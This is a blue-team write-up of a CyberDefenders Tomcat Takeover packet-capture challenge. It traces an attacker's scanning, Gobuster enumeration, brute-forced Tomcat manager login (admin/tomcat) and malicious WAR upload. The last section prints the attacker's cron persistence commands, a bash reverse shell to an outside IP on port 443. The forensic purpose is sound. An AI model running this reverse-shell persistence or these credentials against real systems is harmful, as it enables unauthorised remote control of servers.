 ### **PCAP File**

- **Password**: `cyberdefender`
- **File**: ![[135-TomcatTakeover.zip]]
### Q1: Identify the Source IP Address

- **Suspicious IP Address**:  
    The series of requests indicate scanning behavior, leading to the identification of the source IP responsible for initiating these requests.  
    ![[{0DD0AE2B-578C-4537-B6F6-27A13025B128}.png]]


### Q2: City of the Attacker

- **Attacker's City**:  
    Based on the identified IP address, use a reverse IP search (e.g., AbuseIPDB) to ascertain the city from which the attack originated.
    ![[{681177B9-976D-4B71-A0B2-1F8C8068C36E}.png]]

### Q3: Access to Web Server Admin Panel

- **Open Ports**:  
    The attacker discovered multiple open ports. The following ports provide access to the web server admin panel:
    - **Port 8080**

### Q4: Enumeration Tools Used

- **Tools Identified**:  
    The attacker used the following tool for directory enumeration:
    - **Gobuster**  
        ![[{79446939-368C-4F5D-B44B-30B45E9C2E80}.png]]

### Q5: Admin Panel Directory Discovered

- **Admin Directory**:  
    The attacker was able to uncover the following specific directory associated with the admin panel:
    - **/manager**
    - **/admin**  
        ![[{78CAB62A-95EF-49DD-8928-D8B3E57CD8D0}.png]]

### Q6: Brute-Force Login Credentials

- **Successful Credentials**:  
    After brute-forcing the login credentials, the attacker successfully used the following combination for authorization:
    - **Username**: admin
    - **Password**: tomcat
        ![[{ED9E0365-6EA7-4E72-8669-7DA3A6C59217}.png]]

### Q7: Name of Malicious File Uploaded

- **Malicious File Name**:  
    The attacker attempted to upload a file to establish a reverse shell:
    - **File Name**: `JXQOZ.war`  
        ![[{8967AAD6-733F-4468-8EA3-C6E7596E1560}.png]]

### Q8: Command for Persistence

- **Command Executed**:  
    The attacker scheduled a command to ensure persistence on the compromised machine:
    
     ![[{809D02CE-8521-4CF4-A2D7-1D434F01E9A4}.png]]

```bash
whoami
root
cd /tmp
pwd
/tmp
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
crontab -i cron
crontab -l
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```
